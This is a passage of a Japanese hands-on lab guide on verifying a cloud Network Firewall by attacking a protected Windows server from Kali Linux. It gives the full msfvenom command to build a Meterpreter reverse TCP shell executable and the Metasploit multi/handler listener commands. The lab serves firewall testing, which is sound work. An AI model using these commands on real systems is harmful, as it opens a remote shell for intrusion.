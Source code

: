
# 6. Kali LinuxのMetasploit Frameworkを用いたNetwork Firewallの動作検証


本手順ではKali LinuxにインストールされているMetasploit FrameworkのReverse TCP Shellを用いて、Network Firewallに保護されたコンピュート（Windows）へ侵入テストを実施します。


Reverse TCP Shellとは、被害側クライアントから攻撃側のサーバーに対してTCPのポートを使用したシェルを提供する仕組みのことです。
通常、攻撃者は攻撃対象のシステムのシェルを使用してコマンドなどを実行します。しかし、ほとんどのシステムはファイアウォールにより特定のポートに対する不正なインバウンド通信などは制御されているため、攻撃者が直接シェルと通信を確立するのは難しいです。
しかし、ほとんどのシステムはファイアウォールにより外から内へのインバウンド通信を制御していますが、内から外へのアウトバウンド通信を制御していないことがあります。そのような場合に、攻撃者が攻撃対象のシステム上のシェルでコマンドを実行するために利用されるのがReverse TCP Shellになります。


今回はKali Linuxを攻撃側（クライアント）とし、Windowsサーバーに接続します。Kali LinuxのMetasploit Frameworkを用いてReverse TCP Shellを実行する実行ファイルを生成します。Kali LinuxはWindowsからの接続をListen状態で待っている際、Windowsサーバーが実行ファイルをダウンロードし、実行するとWindowsサーバーからKali Linuxへのアウトバウンド通信が発生してセッションが確立されます。


## 6-1. ファイルの作成

本手順では、被害側クライアントが実行すると、攻撃側のサーバーにTCPポートを使用した通信が発生するファイルを作成します。
Kali Linuxにリモートデスクトップ接続します。
 ![画面ショット28](nfwips28.png)

Kali Linuxのデスクトップ画面左上のメニューから、「Terminal Emulator」をダブルクリックで開きます。
 ![画面ショット29](nfwips29.png)

以下コマンドで、Reverse TCP Shellの通信を確立するファイルを生成します。
```sh
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali LinuxのIPアドレス> LPORT=4444 -f exe -o <ファイルを生成するディレクトリ>/<ファイル名>
```

 ![画面ショット30](nfwips30.png)

Kali Linuxのデスクトップ画面左上のメニューから「Metasploit framework」を検索し、アプリをダブルクリックしてターミナルを開きます。
 ![画面ショット31](nfwips31.png)

開かれたターミナルで、以下コマンドを実行します。
```sh
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set LHOST <Kali LinuxのIPアドレス>
msf6 exploit(multi/handler)> set LPORT 4444
msf6 exploit(multi/handler)> exploit
```
 ![画面ショット32](nfwips32.png)

この状態で、先程生成したファイルWindowsサーバーが実行したら、WindowsサーバーからKali Linuxへアウトバウンド通信が発生し、Kali LinuxからWindowsサーバーに対して任意のコマンドを実行することが出来るようになります。

<br>
